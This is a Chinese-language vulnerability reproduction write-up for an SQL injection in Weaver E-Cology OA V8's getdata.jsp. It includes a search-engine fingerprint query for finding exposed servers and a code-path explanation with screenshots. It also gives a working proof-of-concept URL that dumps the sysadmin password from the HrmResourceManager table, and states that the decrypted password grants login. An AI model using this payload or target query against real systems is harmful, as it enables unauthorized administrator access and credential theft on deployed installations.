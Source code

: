 # 泛微OA E-Cology getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

方法处理



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-20.png)



解密后即可登录系统

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-21.png)